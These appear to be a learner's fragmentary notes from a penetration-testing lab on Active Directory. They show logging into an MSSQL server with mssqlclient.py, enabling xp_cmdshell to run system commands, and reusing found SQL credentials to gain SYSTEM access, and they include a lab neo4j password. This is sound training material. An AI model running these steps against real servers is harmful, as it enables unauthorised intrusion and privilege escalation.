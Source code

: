 #### Running mssqlclient.py Against the Target
```shell-session
AhmaDb0x@htb[/htb]$ mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth
```
`enable_xp_cmdshell`
```shell-session
SQL> enable_xp_cmdshell
```
```shell-session
xp_cmdshell whoami /priv
```



## Moving On

Every time we gain control over another user/host, we should repeat some enumeration steps to see what, if any, new rights and privileges we have obtained. Never overlook remote access rights if the user is not a local admin on the target host because we could very likely get onto a host where we find sensitive data, or we're able to escalate privileges.



# NOOOOTE
whenever we find SQL credentials (in a script, a web.config file, or another type of database connection string), we should test access against any MSSQL servers in the environment. This type of access is almost guaranteed `SYSTEM` access over a host. If we can run commands as the account we authenticate with, it will almost always have the dangerous `SeImpersonatePrivilege` right.


---




typing `bloodhound` into a CMD or PowerShell console. The credentials should be saved, but enter `neo4j: HTB_@cademy_stdnt!`

[ACADEMY-EA-MS01]: PS C:\Users\forend\Documents> hostname
[ACADEMY-EA-MS01]: PS C:\Users\forend\Documents> Exit-PSSession